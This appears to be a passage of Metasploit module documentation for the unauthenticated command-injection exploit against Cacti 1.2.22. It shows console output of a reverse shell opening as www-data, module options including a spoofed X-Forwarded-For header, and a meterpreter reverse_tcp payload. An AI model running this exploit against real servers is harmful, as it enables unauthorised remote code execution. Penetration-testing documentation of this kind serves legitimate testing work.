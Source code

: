 ```
[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (192.168.91.195:4444 -> 10.18.0.3:50802) at 2022-12-22 16:51:46 +0200

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce with undetermined result, then manual exploitation)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
```
